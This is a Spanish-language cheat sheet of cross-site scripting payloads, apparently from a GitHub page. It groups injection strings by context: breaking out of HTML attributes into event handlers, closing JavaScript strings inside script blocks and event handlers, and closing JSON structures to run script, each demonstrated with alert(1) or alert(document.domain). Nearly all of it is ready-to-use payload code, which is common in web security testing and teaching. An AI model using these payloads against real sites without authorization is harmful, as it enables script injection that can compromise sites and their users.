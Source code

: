 **Payloads dentro de atributos HTML (`input`, `img`, `a`, etc.)**  
Cuando tu entrada aparece dentro de un atributo como `value="..."`, necesitas cerrar el atributo y añadir un evento malicioso.

```html
" autofocus onfocus=alert(1) x="
````

```html
' onmouseover=alert(1) '
```

```html
" onerror=alert(1) src=x
```

---

**Payloads dentro de JavaScript inline**  
Si tu input aparece dentro de un bloque `<script>`, especialmente dentro de variables JS, deberás romper la cadena y ejecutar tu código.

```js
';alert(1);// 
```

```js
";alert(1);// 
```

```js
');alert(document.domain);//  
```

---

**Payloads en HTML dentro de `event handlers` JS (ej: onclick, onmouseover)**  
Si el input se inyecta dentro de código JS de eventos, puedes intentar escapar la cadena y ejecutar tu propio código.

```js
" onmouseover="alert(1)
```

```js
');this.onerror=null;alert(1);//
```

---

**Payloads dentro de objetos JSON**  
Cuando la aplicación refleja tu input en un JSON, especialmente en respuestas de APIs, se necesita cerrar la estructura de forma controlada para insertar JS.

```json
"});alert(1);//
```

```json
"}]}]});alert(1);// 
```

